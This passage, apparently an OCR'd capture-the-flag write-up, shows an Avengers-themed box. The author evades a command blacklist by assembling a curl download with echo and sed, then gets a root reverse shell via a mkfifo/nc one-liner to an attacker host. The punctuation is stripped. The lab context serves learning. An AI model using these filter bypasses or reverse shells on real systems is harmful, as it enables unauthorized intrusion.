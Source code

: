 flag5 txt

After looking around we find the fifth flag  at this point I guessed I was supposed to find at least four flags by now   Cool  let s see the contents 

cat    flag5 txt

And we get hit with the same  Command disallowed  error that we got when we tried creating a reverse shell  I immediately started thinking of commands similar to cat such as head and tail  but neither worked  Eventually  I tried less which successfully revealed the contents of the fifth flag 

Now at this point  I didn t know that I wasn t supposed to go any further so I kept thinking of ways on how I would get a reverse shell  I tried many commands such as curl  bash  nc  perl  python  and many more commands  I was thinking about how it was possible to get a reverse shell without specifically typing any of these blacklisted strings  I came to the conclusion that if I could echo a string to a text file  and then somehow prepend text to it  then I could create a file that would contain a malicious command  Here is the methodology 

echo  url  attacker ip  rev  o  tmp reverse  shell     tmp malicious  command

sed  i  1s   cu    tmp test       prepends the characters cu to  tmp malicious  command

chmod  x  tmp malicious  command

Content of  tmp malicious  command 

curl  attacker ip  rev  o  tmp rev

Then  executing  tmp rev would call the curl command make our malicious file be downloaded to the  tmp directory 

Let s try this out 

less  tmp malicious  command

     reports Avengers image9 png 

Awesome  Let s set up a python http server on port 80 with a file called rev  This file can now hold the blacklist nc string as it is not being written to the Jarvis Command Line 

You can try many different reverse shells but I find this particular one to be the most reliable 

rm  tmp f mkfifo  tmp f cat  tmp f  bin sh  i 2  1 nc  attacker ip   attacker port    tmp f

Running sudo python3  m http server 80 and executing  tmp malicious  command we get a hit 

Looking at the content of  tmp we see these files now 

     reports Avengers image17 png 

Now on our machine let s listen to the port that we specified in the reverse shell command 

Jarvis commands 

chmod  x  tmp rev   tmp rev

And we get a reverse shell 

     reports Avengers image3 png 

No need to privesc  We are already root because the server was running as root  Now this is a huge vulnerability that is not too uncommon  NEVER RUN YOUR WEB SERVERS AS ROOT  It is better to run a web server as a low privileged user such as www data in case of any web vulnerabilities  So anyways  now that we have root I d call the box done  Let s just get the flags straight from the terminal 
